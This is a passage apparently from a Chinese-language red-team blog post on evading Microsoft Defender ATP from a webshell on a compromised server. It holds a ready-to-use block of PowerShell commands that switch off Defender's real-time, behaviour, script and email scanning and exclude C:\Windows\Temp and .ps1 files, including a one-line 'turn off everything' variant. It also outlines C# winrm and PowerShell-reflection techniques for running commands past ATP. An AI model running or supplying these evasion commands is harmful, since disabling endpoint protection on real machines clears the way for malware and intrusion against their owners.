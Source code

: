 可以执行部分powershell命令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PLeCXQl8794MAKtoeuG5HUkZdibEKFibagCynrgDEDUNsLgG7bX2FNPHYdLsy1nrPiaO7ImbHFAYJY32MriauApQ4w/640?wx_fmt=png "")  
启动敏感进程依旧被拦截：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PLeCXQl8794MAKtoeuG5HUkZdibEKFibagOcCfBT56rp1cSxC8KrDr2G319dvpjlw9iaDtbiaF8wENgO8wUNZE8gUQ/640?wx_fmt=png "")  
# MORE  
  
通过c#调用powershell相关dll可以实现绕过ATP执行部分命令，但这样还不足够。我们可以使用powersell关闭definder的一些功能：  
```
# Disables realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true

# Disable behaviour monitoring
Set-MPPreference -DisableBehaviourMonitoring $true

# Make exclusion for a certain folder
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disables cloud detection
Set-MPPreference -DisableBlockAtFirstSeen $true

# Disables scanning of .pst and other email formats
Set-MPPreference -DisableEmailScanning $true

# Disables script scanning during malware scans
Set-MPPReference -DisableScriptScanning $true

# Exclude files by extension
Set-MpPreference -ExclusionExtension "ps1"

# Turn off everything and set exclusion to "C:\Windows\Temp"
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"

```  
  
对于ATP的绕过手段有很多种，笔者一般使用三种办法：  
- 使用c#调用winrm，实现winrm进程启动cmd.exe而不是w3wp进程启动cmd.exe。可以继承当前shell上下文的权限，但只能是管理员调用(域内机器)。适用于exch这种system启动的shell或有域身份的shell。winrm相关库：http://windowsbulletin.com/files/dll/dell-inc/dell-amt-vpro-plugin/interop-wsmanautomation-dll  
  
- c#调用powershell的反射类型，即上面提到的webshell：https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
https://www.linkedin.com/pulse/bypass-security-simple-trick-execute-csharp-dll-rundll32exe-brok  
  